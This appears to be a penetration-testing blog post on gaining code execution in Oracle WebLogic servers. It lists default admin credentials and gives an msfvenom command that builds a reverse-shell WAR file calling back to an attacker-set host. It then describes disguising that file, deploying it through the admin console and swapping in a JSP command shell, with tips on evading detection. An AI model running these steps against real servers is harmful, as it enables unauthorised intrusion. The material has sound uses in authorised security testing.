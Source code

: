 ```yaml
---
layout: post
title: Authenticated RCE in Weblogic Servers
excerpt_separator: <!--more-->
---
```


Weblogic servers are popular in pentests as outdated versions have RCE vulnerabilities with public exploits. However, you can exploit them uploading WAR files as well.

<!--more-->


## Getting access to Weblogic Server

You may find a version of WebLogic Administration Console interface affected by vulnerabilities such as CVE-2020-14882, but it is not always possible to exploit them because of network or system restrictions.

Nevertheless, you can get access by obtaining admin credentials and uploading a malicious application. Some of the default credentials are:

- weblogic:Welcome1

- weblogic:weblogic

- system:weblogic

It usually runs in port 7001 but you can find it in any port.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/6.png)

## Creating WAR file

If you know there are no antivirus or EDR running in the system or you do not care about being detected, you can try uploading a WAR file generated with msfvenom using the parameter "-f war":

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > malicious.war
```

This is not the stealthiest method but we can use this file to generate a better WAR file, by decompressing it (it is like a zip file), update the files and compress it again later. The file structure is the following:

- META-INF/MANIFEST.MF
- WEB-INF/web.xml
- evxanqiqlxbhun.jsp

The only thing you should see different is the JSP file name.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/0.png)

We will change the random characters in "web.xml":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/1.png)

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/2.png)

And the JSP name to "index.jsp". If we remove the line 3 in the file, we can add any non-malicious code to test the JSP code is executed.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/4.png)

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/5.png)

Then we create a WAR compressed file: 

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/3.png)


## Upload malicious WAR file

To upload the file and deploy the malicious application we can follow [this IBM guide](https://www.ibm.com/docs/en/control-desk/7.6.0.2?topic=scenario-deploy-application-files-oracle-weblogic-server).

In Deployments, click "Lock & Edit": 

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/7.png)

Then "Install":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/8.png)

Load the file and click Next all over again until the application is installed:

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/9.png)

Finally, click the creted application in "Deployments", and click "Start" (NOTE: here the name should be "legitimate", "WebServices" was the last application in the list, my mistake):

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/10.png)

Finally, click "Release Configuration" in the "Change Center", under the "Lock & Edit" button. Now you should be able to visit the application in "/legitimate" or the endpoint you have created (it probably has the same name as the WAR file).

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/11.png)

Now we know JSP code is running in the server, we can create a new WAR file containing a cmdshell, such as [this one](https://gist.github.com/nikallass/5ceef8c8c02d58ca2c69a29a92d2f461) or any custom one for better OPSEC.
